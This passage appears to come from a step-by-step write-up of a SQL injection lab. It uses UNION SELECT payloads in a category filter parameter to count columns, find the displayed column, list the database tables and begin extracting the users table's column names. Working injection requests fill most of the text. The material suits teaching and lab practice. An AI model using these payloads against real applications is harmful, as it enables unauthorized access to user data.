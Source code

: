 ✅ Works → Confirms there are **2 columns** in the original query.

#### ❌ Try 3 Columns:
```http
GET /filter?category='+UNION+SELECT+NULL,NULL,NULL-- 
```

❌ Fails → Confirms only **2 columns exist**.

> 📝 **Why This Works**:  
> The `UNION SELECT` operator requires both queries to return the same number of columns. If it fails when we use 3 `NULL`s, it means the original query has only 2 columns.

### 🔹 Step 3: Find Which Column Is Visible

Now test which of the two columns is actually displayed in the application.

#### ❌ First Column Test:
```http
GET /filter?category='+UNION+SELECT+'a',NULL-- 
```

❌ Doesn't show `'a'` → First column not visible.

#### ✅ Second Column Test:
```http
GET /filter?category='+UNION+SELECT+NULL,'a'-- 
```

✅ Shows `'a'` → **Second column is visible**.

> 📝 **Why This Matters**:  
> You can only see results from the second column, so all useful data must be placed there.

### 🔹 Step 4: List All Tables in the Database

Now that you know the structure, start enumerating tables in the current schema.

```http
GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+information_schema.tables-- 
```

✅ Returns a long list of tables including:
- `users`
- `products`
- `pg_*` internal tables

> 📝 **What's Happening Here**:  
> - `information_schema.tables` is a standard SQL table that lists all tables in the database.
> - By selecting `table_name`, we get a list of all available tables.

### 🔹 Step 5: Extract Column Names for the `users` Table

Once you identify the `users` table, retrieve its column names.

```http
GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users'-- 
```
